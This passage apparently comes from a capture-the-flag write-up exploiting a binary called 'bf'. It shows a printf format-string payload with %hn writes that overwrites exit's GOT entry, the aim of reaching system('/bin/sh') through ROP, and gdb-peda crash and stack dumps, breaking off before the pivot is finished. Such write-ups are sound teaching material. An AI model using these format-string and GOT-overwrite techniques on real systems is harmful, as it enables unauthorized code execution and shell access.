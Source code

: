 I decided to overwite exit's GOT reference to an instruction that would pivot me back into an area I controlled on the stack. This area would contain my ROP gadgets that would eventually setup the stack such that I could call system("/bin/sh"). 

In order to have bf read my format string from within gdb, I had to save it into a file and redirect that file into gdb's run command. 

```
printf '\x54\x9a\x04\x08\x55\x9a\x04\x08\x56\x9a\x04\x08-%%10c%%16$hn-%%10c%%17$hn-%%10c%%18$hn' > in
```

This would perform three writes into addresses 0x08049a54, 0x08049a55, and 0x08049a56, which allowed me to change it to whatever address I wanted. I tested this in gdb and confirmed that the overwrite was successful when a segmentation fault was triggered after exit() was called: 

```
gdb-peda$ r `python -c 'print ",>"*45'`# < in

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x40185ff4 --> 0x15fd7c 
ECX: 0xbfd60228 --> 0x401864e0 --> 0xfbad2a84 
EDX: 0x5b ('[')
ESI: 0x0 
EDI: 0x0 
EBP: 0xbfd677b8 --> 0xbfd67838 --> 0x0 
ESP: 0xbfd6026c --> 0x80486f7 (nop)
EIP: 0x2d2217
EFLAGS: 0x210282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x2d2217
[------------------------------------stack-------------------------------------]
0000| 0xbfd6026c --> 0x80486f7 (nop)
0004| 0xbfd60270 --> 0x0 
0008| 0xbfd60274 --> 0xbfd60280 --> 0x8049a54 --> 0x2d2217 
0012| 0xbfd60278 --> 0x7530 ('0u')
0016| 0xbfd6027c --> 0x0 
0020| 0xbfd60280 --> 0x8049a54 --> 0x2d2217 
0024| 0xbfd60284 --> 0x8049a55 --> 0x80002d22 
0028| 0xbfd60288 --> 0x8049a56 --> 0xcd80002d 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x002d2217 in ?? ()
gdb-peda$ 
```

exit() was now jumping to 0x2d2217, an invalid address. Now I needed to pivot back into the stack to an area I controlled. A quick look at the stack at the time of the crash showed the following:

```
gdb-peda$ context stack 24
[------------------------------------stack-------------------------------------]
0000| 0xbfc3b42c --> 0x80486f7 (nop)
0004| 0xbfc3b430 --> 0x0 
0008| 0xbfc3b434 --> 0xbfc3b440 --> 0x8049a54 --> 0x302418 
0012| 0xbfc3b438 --> 0x7530 ('0u')
0016| 0xbfc3b43c --> 0x0 
0020| 0xbfc3b440 --> 0x8049a54 --> 0x302418 
0024| 0xbfc3b444 --> 0x8049a55 --> 0x80003024 
0028| 0xbfc3b448 --> 0x8049a56 --> 0xcd800030 
0032| 0xbfc3b44c ("-%11c%16$hn-%11c%17$hn-%11c%18$hn")
0036| 0xbfc3b450 ("c%16$hn-%11c%17$hn-%11c%18$hn")
0040| 0xbfc3b454 ("$hn-%11c%17$hn-%11c%18$hn")
0044| 0xbfc3b458 ("%11c%17$hn-%11c%18$hn")
```